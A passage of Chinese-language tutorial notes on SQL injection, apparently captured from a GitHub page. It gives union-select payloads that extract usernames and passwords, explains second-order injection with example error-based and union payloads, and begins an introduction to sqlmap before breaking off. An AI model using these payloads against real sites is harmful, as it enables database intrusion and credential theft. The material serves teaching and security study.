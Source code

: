 //获取字段内数据
-1' union select 1,(select group_concat(concat_ws('_',username,password)) from users),database() -- qwe
```

### 6. 二次注入

#### (1). 概述

* 已**存储的用户输入**被**读取**后，**再次进入到sql查询语句**中导致的注入

#### (2). 原理

1. 网站在对用户输入**恶意数据**时进行**转义处理**
2. 恶意数据**插入到数据库**时又被**还原并存储**到数据库中
3. 系统**再次调用**该恶意数据并**执行sql查询**时，被成功注入(因为调用时不会考虑转义问题)

#### (3). 实例 

```
//一个页面，能显示登录后的用户名，这时可以注册不同的payload名的账号，来进行注入
1' and updatexml(1,concat(0x7e,database(),0x7e),1)#

1' order by 5#

1' union select 1,2,3,4,5#

1' union select 1,database(),3,4,5#

1' union select 1,(select table_name from information_schema.tables where table_schema=database()),2,3,4,5#

1' union select 1,user(),3,4,5#
```

### 7. Sqlmap

#### (1).介绍

##### a. 工作流程

1. 检测网站是否能够访问
2. 检测是否有waf
3. 判断可注入的参数
4. 判断可以使用哪种Sql注入技术
5. 识别出数据库种类
6. 根据用户输入的参数，进行操作

##### b. 支持的注入模式

1. 联合查询注入
2. 基于报错注入
3. 布尔、时间盲注
4. 堆叠查询注入
5. 内联查询注入

#### (2). 使用

##### a. 基本流程

###### ①检测注入点

* sqlmap -u "带参数网址"

###### ②查看所有数据库

```